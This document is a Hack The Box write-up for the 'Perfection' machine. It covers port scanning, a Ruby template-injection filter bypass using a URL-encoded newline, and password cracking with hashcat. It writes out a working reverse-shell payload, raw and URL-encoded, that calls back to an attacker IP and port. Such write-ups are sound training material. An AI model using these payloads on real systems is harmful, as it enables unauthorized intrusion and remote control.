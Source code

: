 # Perfection Writeup - by Thammanant Thamtaranon  
- Perfection is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.253`  
![Nmap_Scan](Nmap_Scan.png)

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.253`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- Additional interesting paths discovered include:  
  - `/weighted-grade`  
  - `/weighted-grade-calc`  

## Exploitation  
- Initial XSS attempts were blocked, so we used Burp Suite Intruder with XSS payloads from `PayloadsAllTheThings/XSS Injection/Intruders/XSSDetection.txt`.  
- An interesting response with `<%` was observed, indicating Ruby embedded code execution using `<% %>` tags.  
- Since special characters were blocked by the input validator, we bypassed it using `%0A` (URL encoded newline).  
![Escape](Escape.png)  
![Ruby](Ruby.png)  
- Testing the command `<%= `id` %>` as `%3C%25%3D%20%60id%60%20%25%3E%0A` successfully executed the `id` command.  
![ID](ID.png)  
- We replaced it with a reverse shell payload:  
  `<% require 'socket';exit if fork;S=TCPSocket.new('10.10.16.11',4444);loop{S.print "$ ";IO.popen(S.gets,'r'){|io|S.puts io.read}} %>`  
  URL encoded as:  
`%3C%25%20require%20%27socket%27%3Bexit%20if%20fork%3BS%3DTCPSocket%2Enew%28%2710%2E10%2E16%2E11%27%2C4444%29%3Bloop%7BS%2Eprint%20%22%24%20%22%3BIO%2Epopen%28S%2Egets%2C%27r%27%29%7B%7Cio%7CS%2Eputs%20io%2Eread%7D%7D%20%25%3E`  
- We successfully obtained a shell as user `susan`, who is in the sudo group.  
![Susan](Susan.png)  
- We captured the **user flag**.

## Privilege Escalation  
- Credentials were found in `pupilpath_credentials.db` but were initially uncrackable.
![Credentials](Credentials.png)  
- Inspecting susan’s emails revealed hints to crack the password.  
![Mail](Mail.png)  
- We used Hashcat with the command:  
  `hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d --increment`  
  - `-m 1400`: SHA-256 hash mode  
  - `-a 3`: mask attack  
  - `--increment`: try shorter passwords first  
  - `?d`: digit placeholder (9 digits total)  
- Susan’s password was cracked successfully.  
![Password](Password.png)  
- We SSH’d into the machine with susan’s credentials.  
- Running `sudo -l` showed susan can run any command as sudo.  
- We executed `sudo su` to escalate to root.  
- We captured the **root flag**.  
![Root](Root.png)
